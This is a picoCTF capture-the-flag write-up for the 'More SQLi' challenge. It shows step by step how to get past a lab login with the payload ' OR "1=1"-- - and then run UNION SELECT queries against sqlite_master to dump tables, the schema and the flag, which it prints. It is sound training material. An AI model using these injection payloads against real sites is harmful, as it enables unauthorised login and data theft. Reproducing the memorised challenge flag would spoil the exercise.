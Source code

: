 # More SQLi
> Write-up author: jon-brandy
## DESCRIPTION:
Can you find the flag on this website. Try to find the flag here.
## HINT:
1. SQLiLite
## STEPS:
1. In this challenge we're given a web app which has a login feature.

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/db8c1921-0648-47d5-a142-21143589adcf)


2. Let's fill both username and password as `' OR "1=1"-- -`.

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/45b39565-ab9c-4b01-8610-62d49c0d92a0)



3. Successfully logged in, now we need to dump the data, based from the hint the DBMS might be sqlite3, let's try to find the number of columns (should be 3, because it shows us 3, but let's check it again) that could be viewed, use this query:

```sql
' UNION SELECT 1,2,3-- -
```

![sqlite3](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/a94c99c3-bf07-4f23-854f-437f4d83ef5f)


> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/5918ec8c-8e42-495e-acff-28d7d877d6c8)


4. Great now let's dump all the table name from sqlite_master, query:

```sql
' UNION SELECT 1, tbl_name, 3 FROM sqlite_master;--
```

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/b8b519b2-b0f7-4dce-8c24-2f13261024cc)


5. Great now we know that there's 4 table name within sqlite_master, but things to note here. In sqlite3, there's a column name named sql in sqlite_master. This column stores all the SQL syntax used to create database object.
6. Let's run this query:

```sql
' UNION SELECT 1, sql, 3 FROM sqlite_master;--
```

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/ff82720b-1d97-41f7-84be-50b3fd3f72be)


7. Notice inside the more_table table, it stored a column named flag, this should be our interest now. Let's run this query:

```sql
' UNION SELECT 1, flag, 3 FROM more_table;--
```

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/16a5eb6a-dfe2-43b2-a6cb-e5259bdce4a2)


8. Got the flag!

## FLAG:

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}
```


